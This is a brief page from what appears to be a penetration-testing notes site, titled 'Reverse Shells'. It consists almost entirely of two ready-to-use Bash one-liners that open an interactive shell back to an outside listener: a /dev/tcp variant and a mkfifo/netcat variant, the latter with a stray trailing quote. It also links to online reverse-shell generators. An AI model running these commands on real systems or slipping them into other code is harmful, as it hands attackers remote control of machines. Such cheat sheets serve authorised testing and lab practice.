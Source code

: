 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Reverse Shells

## Bash

{% tabs %}
{% tab title="classic" %}
```bash
bash -i >& /dev/tcp/10.10.10.10/9001 0>&1
```
{% endtab %}

{% tab title="mkfifo" %}
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.13 1337 >/tmp/f'
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="revshells" %}
{% embed url="https://www.revshells.com/" %}
{% endtab %}

{% tab title="revshellgen" %}
{% embed url="https://github.com/t0thkr1s/revshellgen" %}
{% endtab %}
{% endtabs %}
